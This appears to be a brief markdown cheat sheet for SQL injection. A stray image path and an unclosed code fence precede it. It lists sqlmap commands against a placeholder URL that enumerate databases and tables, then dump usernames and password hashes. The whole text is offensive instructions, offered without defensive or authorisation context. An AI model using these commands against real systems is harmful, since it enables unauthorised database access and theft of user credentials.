 # SQL Injection Cheat Sheet

## 🔍 Test for SQL Injection
```bash
sqlmap -u "http://target-site.com/index.php?id=1" --dbs

💾 Dump Database Tables
sqlmap -u "http://target-site.com/index.php?id=1" --tables

🔑 Dump Usernames and Password Hashes
sqlmap -u "http://target-site.com/index.php?id=1" --dump
